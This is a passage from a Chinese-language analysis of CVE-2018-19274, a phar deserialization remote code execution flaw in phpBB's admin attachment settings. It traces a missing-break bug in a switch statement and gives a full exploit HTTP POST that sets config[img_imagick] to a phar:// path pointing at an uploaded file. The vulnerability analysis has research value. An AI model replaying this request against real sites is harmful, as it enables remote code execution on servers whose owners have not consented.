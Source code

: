 但是在进入路径判断前有一个三元运算

    $path = in_array($config_definition['validate'], array('wpath', 'path', 'rpath', 'rwpath')) ? $phpbb_root_path . $cfg_array[$config_name] : $cfg_array[$config_name];

经过判断`$config_definition['validate']`在数组之中，所以会走第一个分支，`$cfg_array[$config_name]`就是post数组变量，此处可控，但是会和`$phpbb_root_path`进行拼接。文件位置：`phpBB3/adm/index.php`

![6.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId31.png)

因此拼接后的`$path`会变成`./../xxxxxxxxxx`，路径出错无法利用，如下。

![7.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId32.png)

但是这里的整个`switch`语句犯了一个较为低级的错误，部分条件的语句段没有使用`break`进行结束。

`switch`执行方式：开始时没有代码被执行。仅当一个 `case`语句中的值和
`switch`表达式的值匹配时 PHP
才开始执行语句，直到`switch`的程序段结束或者遇到第一个`break`
语句为止。如果不在`case`的语句段最后写上`break`的话，PHP
将继续执行下一个`case`中的语句段。

![8.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId33.png)

因此需要在`$config_vars`找到一个元素`$config_definition`，并且`$config_definition['validate']`等于`absolute_path`或者`absolute_path_writable`或者`path`，这样就能即进入`wpath`执行也不增加`$path`的前缀

使用如下代码过滤：

    foreach ($display_vars['vars'] as $key =>$value){
        if (($value['validate'] === 'absolute_path') or ($value['validate'] === 'absolute_path_writable') or ($value['validate'] === 'path')){
            print('66'.$key.'77');
        }
    }

发现`img_imagick`元素满足条件：

![9.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId34.png)

进入控制面板的附件设定，提交并该修改数据包

![10.png](resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId35.png)

数据包如下，关键点为`config[img_imagick]`参数：

    POST /phpBB3/adm/index.php?i=acp_attachments&mode=attach&sid=385d5172c29a3a9530d6b467a5691ffd HTTP/1.1
    Host: www.0-sec.org
    User-Agent: python-requests/2.21.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 967

    config%5Ballow_attachments%5D=1&config%5Ballow_pm_attach%5D=0&config%5Bupload_path%5D=files&config%5Bdisplay_order%5D=0&config%5Battachment_quota%5D=50&attachment_quota=mb&config%5Bmax_filesize%5D=256&max_filesize=kb&config%5Bmax_filesize_pm%5D=256&max_filesize_pm=kb&config%5Bmax_attachments%5D=3&config%5Bmax_attachments_pm%5D=1&config%5Bsecure_downloads%5D=0&config%5Bsecure_allow_deny%5D=1&config%5Bsecure_allow_empty_referer%5D=1&config%5Bcheck_attachment_content%5D=1&config%5Bimg_display_inlined%5D=1&config%5Bimg_create_thumbnail%5D=0&config%5Bimg_max_thumb_width%5D=400&config%5Bimg_min_thumb_filesize%5D=12000&config%5Bimg_imagick%5D=phar://../files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part/&config%5Bimg_max_width%5D=0&config%5Bimg_max_height%5D=0&config%5Bimg_link_width%5D=0&config%5Bimg_link_height%5D=0&submit=Submit&ips=&ipexclude=0&creation_time=1552465991&form_token=0910a5dc9a13fc50a0ead4656617642fa80daaf1
